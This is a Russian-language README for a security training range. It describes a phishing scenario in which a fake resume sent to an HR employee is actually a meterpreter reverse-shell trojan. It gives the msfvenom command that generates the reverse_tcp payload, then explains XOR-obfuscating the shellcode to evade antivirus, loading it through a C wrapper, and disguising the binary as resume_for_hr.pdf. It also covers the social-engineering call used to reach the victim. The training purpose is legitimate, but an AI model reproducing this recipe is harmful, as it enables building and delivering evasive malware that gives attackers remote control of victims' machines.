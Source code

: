 # cyberpolygon
cyberpolygon for information security training

Добавить видео работы или в гиф превратить

### Для работы стенда необходимо ввести след команды
![Image alt](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-27-14.png)

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-36-50.png)

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-09.png)

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-19.png)

Так выглядят Отработавшие скрипты HR:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-34.png)

и hacker:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-47.png)

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-42-24.png)

Скопируем char buf[] и вставим это в программу encoder_beautiful.c
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-04.png)

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-40.png)

запустим ./encoder_beautiful.elf - теперь это надо скопировать
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-17.png)

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-04.png)

Скомпилировать след. командой файл hack.c
![Screenshot]

Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:



Запустим:


И получаем оболочку:

Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :

Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :

Результат сканирования написанного вируса на virustotal :


